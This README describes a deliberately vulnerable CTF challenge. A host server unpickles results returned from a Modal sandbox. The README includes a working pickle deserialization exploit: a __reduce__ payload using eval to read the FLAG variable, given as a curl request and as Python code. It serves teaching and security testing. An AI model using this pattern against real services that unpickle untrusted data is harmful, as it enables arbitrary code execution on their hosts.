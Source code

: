 # Modal CTF Challenge - Pickle Deserialization Vulnerability

This is a Capture The Flag (CTF) challenge designed to demonstrate and test the security of Modal's sandbox when dealing with pickle deserialization vulnerabilities.

## ⚠️ WARNING
This application is **intentionally vulnerable** for educational and testing purposes. Do not deploy this in a production environment.

## Architecture

This CTF has two components:

1. **Modal Function** (`modal_function.py`): A restricted Modal function that executes Python code in a sandboxed container
2. **Local Server** (`server.py`): A FastAPI server that runs on your VM, accepts HTTP requests, and calls the Modal function

The vulnerability occurs when the local server receives the pickled result from Modal and deserializes it, allowing arbitrary code execution on the host VM.

## Challenge Description

The goal is to capture the flag (stored in the `FLAG` environment variable on the host VM) by exploiting the pickle deserialization vulnerability. User-submitted code runs in a Modal container with restrictions, but the result is pickled and sent back to the host, where it's unpickled - creating the vulnerability.

## Project Structure

```
modal-ctf/
├── modal_function.py    # Modal function (runs in cloud)
├── server.py            # Local FastAPI server (runs on VM)
├── public/
│   └── index.html       # Web interface with CTF instructions
├── requirements.txt     # Python dependencies
├── deploy_modal.sh      # Deploy Modal function to cloud
├── start_server.sh      # Start the CTF server
└── README.md           # This file
```

## Quick Start

### 1. Deploy the Modal Function

```bash
./deploy_modal.sh
```

### 2. Set the FLAG and Start Server

```bash
export FLAG="CTF{your_secret_flag_here}"
./start_server.sh
```

## Detailed Setup

## API

The server accepts raw Python code as the POST body (not JSON):

```bash
# Simple test
curl -X POST http://localhost/execute -d 'print("Hello"); 42'

# Exploit example
curl -X POST http://localhost/execute -d 'class E:
    def __reduce__(self):
        import os
        return (eval, ("__import__(\"os\").environ.get(\"FLAG\", \"No flag\")",))
E()'
```

## How It Works

1. User submits Python code via HTTP POST to `/execute`
2. The server sends the raw code to Modal's sandboxed function
3. Modal executes the code safely in a container
4. Modal pickles the result to send it back
5. **VULNERABILITY**: The server unpickles the result
6. If the object has a malicious `__reduce__` method, it executes on the host

## The Exploit

```python
class FlagExploit:
    def __reduce__(self):
        # This runs on the HOST during unpickling
        import os
        return (eval, ("__import__('os').environ.get('FLAG', 'No flag')",))

FlagExploit()  # Return this from Modal
```

## Testing

```bash
# Run tests
python3 test_local.py

# Or test with curl
curl -X POST http://localhost:8000/execute -d 'print("test"); 123'
```

## Full Setup Instructions

### Install Dependencies

```bash
pip3 install -r requirements.txt
```

### Authenticate with Modal

```bash
python3 -m modal setup
```

### Deploy Everything

```bash
# Deploy Modal function
./deploy_modal.sh

# Set FLAG and start server
export FLAG="CTF{your_flag_here}"
./start_server.sh
```

```

## Security Notes

- Modal function has `restrict_modal_access=True` and `block_network=True`
- The container is secure - the vulnerability is in the host's unpickling
- This demonstrates why untrusted data should never be unpickled

## Expected Behavior

- **Container execution**: Code runs as 'root' in Modal container
- **Successful exploit**: Returns the FLAG value from the host VM
- **Host info**: Shows the VM's actual hostname and username

## Mitigation

Your forked `modal-client` should use safe deserialization (JSON) instead of pickle for untrusted data.
